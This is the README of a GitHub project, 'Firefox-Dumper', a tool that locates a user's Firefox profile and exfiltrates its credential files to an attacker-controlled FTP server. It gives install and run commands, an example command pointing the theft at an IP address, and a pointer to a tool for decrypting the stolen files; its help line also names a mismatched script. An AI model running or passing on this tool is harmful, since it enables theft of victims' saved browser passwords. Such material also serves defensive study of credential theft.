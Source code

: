# Firefox-Dumper

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/Firefox-Dumper/blob/main/images/firefox_dumper.png" />
</p>

Firefox Dumper identifies the current user's Firefox profile directory and exfiltrates the credential files to the attacker's FTP server.  

## Usage
Installing Firefox Dumper

```git clone https://github.com/dievus/Firefox-Dumper.git```

Change directories to Firefox-Dumper and that's it.

```python3 Oh365UserFinder.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-i, --ip - Mandatory - declares the attacker's FTP server IP. Firefox Dumper uses port 21 by default and is hardcoded.```


Examples of full commands include:

```python3 firefoxdumper.py -i 192.168.1.1```


### Notes
A tool called "Firefox Decrypt" can be found here - https://github.com/unode/firefox_decrypt.  This tool is required in order to decrypt the files.  



